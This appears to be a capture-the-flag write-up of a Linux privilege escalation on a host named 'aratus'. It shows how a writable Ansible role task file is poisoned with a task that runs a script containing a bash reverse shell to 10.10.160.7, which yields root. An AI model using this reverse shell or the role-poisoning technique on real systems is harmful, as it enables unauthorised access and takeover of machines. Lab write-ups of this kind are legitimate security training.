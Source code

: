 #### SCRIPTS

---

This part only has some code called *infra_as_code.sh*

```bash
[theodore@aratus scripts]$ cat infra_as_code.sh 

#!/bin/bash
cd /opt/ansible
/usr/bin/ansible-playbook /opt/ansible/playbooks/*.yaml

```

#### ANSIBLE

---

It is defined as infrastructure as a service

-rwxr-xr-x. 1 root root 5933 Jan 15  2022 /usr/bin/ansible-2.7

##### README

---

```txt
[theodore@aratus ansible]$ cat README.txt 
To do:
- Move vsftpd to IoC
- Move firewalld to IoC
- Move sshd to IoC
- Move smbd to IoC
- Feed the cats before they start rioting

Done:
- Move Apache to IoC
- Create script to not use 'automation' directly
- Scold Simeon

```

##### PLAYBOOKS

---

None of the playbooks are writeable sadly :\*< sadly, but maybie we can make do with this.

```bash
[theodore@aratus playbooks]$ ls -la
total 20
drwxr-xr-x. 2 automation automation  99 Nov 23  2021 .
drwxr-x---. 4 automation theodore    90 Nov 23  2021 ..
-rw-r--r--. 1 automation automation 156 Nov 23  2021 firewalld.yaml
-rw-r--r--. 1 automation automation 312 Nov 23  2021 httpd.yaml
-rw-r--r--. 1 automation automation 140 Nov 23  2021 smbd.yaml
-rw-r--r--. 1 automation automation 138 Nov 23  2021 sshd.yaml
-rw-r--r--. 1 automation automation 145 Nov 23  2021 vsftpd.yaml
```

##### ROLES :  geerlingguy.apache

Can write into the following files:

```
-rw-rw-r--+ 1 automation automation 1123 Dec  2  2021 ./tasks/configure-RedHat.yml
```

We can write a simple reverse shell with this (just echo into it since i did not have much to do with this)

```yaml
- name: very important task do not remove it trust me bro
  command: "bash /home/theodore/scripts/trustmebro.sh"
```

The file trustmebro.sh is defined as 

```bash 
#!/bin/bash
bash -i >& /dev/tcp/10.10.160.7/6666 0>&1
```

And we can execute it with sudo privileges to be automation.

After doing this i thought i was going to be automation not root but ok i guess :).

After this we have [[root]]
